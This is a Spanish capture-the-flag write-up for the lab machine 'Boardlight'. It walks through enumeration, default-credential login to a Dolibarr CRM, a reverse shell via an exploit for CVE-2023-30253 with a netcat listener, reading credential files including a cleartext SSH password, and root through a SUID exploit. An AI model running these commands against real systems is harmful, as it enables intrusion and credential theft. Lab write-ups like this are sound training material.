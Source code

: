 Maquina: Boardlight

Autor:

Dificultad: Facil

Iniciamos la máquina y verificamos la conexión

ping 10.129.135.122 -c 1

Enumeramos la maquina con nmap 

nmap -sV 10.129.135.122

En la web muestra 'Bienvenido a BOARDLIGHT' mantenida por Board.htb.

Abrimos el enlace y usamos Ffuf.

ffuf -w /usr/share/wordlists/dirb/big.txt -H "Host:FUZZ.board.htb" -u "http://board.htb/"

Encontramos el archivo index.php por lo que realizamos la búsqueda.

http://crm.board.htb/index.php

Es un panel de login por lo que probamos las credenciales más comunes. Probamos admin tanto para contraseña y usuario y nos deja iniciar sesión correctamente.

Revisamos la versión por Internet si tiene alguna vulnerabilidad. Efectivamente tiene una vulnerabilidad que intentaremos explotar haciendo una Reverse Shell.

"Copiemos esta versión y busquemos el exploit en Google, y encontrarás un exploit CVE-2023–30253.

https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253

Ejecutamos el script mientras nos ponemos en escucha para conectarnos.

python3 exploit.py http://crm.board.htb admin admin 10.10.14.101 4444

nc -lvnp 4444

Revisamos todos los archivos y encontramos la contraseña ssh en el archivo conf.php. Vamos a comprobar el nombre de usuario. 

Vemos que hay un directorio larissa en cd /home/.

cat /etc/passwd | grep bash

cat /var/www/html/crm.board.htb/htdocs/conf/conf.php

Nos conectamos a larissa por ssh con la contrasena encontyrada: serverfun2$2023!!

cat user.txt

SUID exploited using CVE-2022–37706

Utilizamos LinPEAS

Buscamos el código del script en GitHub, lo copiamos y lo pegamos en un nuevo archivo suid.sh en el directorio del usuario Larissa.

nano suid.sh

Para ejecutar el script, necesitamos otorgarle permisos de ejecución

chmod +x suid.sh

Ejecutamos el script 

bash suid.sh & ./exploit.sh

ls

id

cat root.txt


